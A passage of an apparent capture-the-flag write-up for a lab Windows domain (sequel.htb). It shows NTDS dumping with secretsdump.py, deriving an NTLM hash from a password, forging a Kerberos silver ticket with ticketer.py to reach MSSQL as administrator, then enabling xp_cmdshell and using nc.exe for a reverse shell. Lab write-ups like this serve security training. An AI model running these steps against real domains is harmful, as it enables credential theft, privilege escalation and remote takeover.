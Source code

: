 Running `secretsdump.py` to dump NTDS 

<img src="https://i.imgur.com/EFBU1S7.png"/>

<img src="https://i.imgur.com/fIS8OgK.png"/>

## Un-inteded 

As sql_svc was not able to login mssql, we can try forging a silver ticket to impersonate as the administrator on mssq, we need the ntlm hash of the sql_svc and the domain sid

```python
import hashlib,binascii
hash = hashlib.new('md4', "REGGIE1234ronnie".encode('utf-16le')).digest();
print (binascii.hexlify(hash));
```

<img src="https://i.imgur.com/gMvf02K.png"/>

Through `rpcclient` , we can get the domain sid

<img src="https://i.imgur.com/fZLVmos.png"/>

With `ticketer.py` we can create the silver ticket

```bash
ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -spn MSSQLSvc/dc.sequel.htb -domain sequel.htb -domain-sid S-1-5-21-4078382237-1492182817-2568127209 administrator
```

<img src="https://i.imgur.com/EHCxKeb.png"/>

Before running `mssqlclient` , make sure to synchronize the time zone with `ntpdate`

```bash
mssqlclient.py dc.sequel.htb -k -no-pass
sudo ntpdate dc.sequel.htb
```

<img src="https://i.imgur.com/fSa3fe7.png"/>

<img src="https://i.imgur.com/ZKkMRF1.png"/>

Now we can enable `xp_cmdshell` and get a reverse shell

<img src="https://i.imgur.com/uKyTIkS.png"/>

<img src="https://i.imgur.com/GCSNy40.png"/>

Transfer nc.exe and get a reverse shell

<img src="https://i.imgur.com/gfTdKgp.png"/>

<img src="https://i.imgur.com/ptKqh68.png"/>
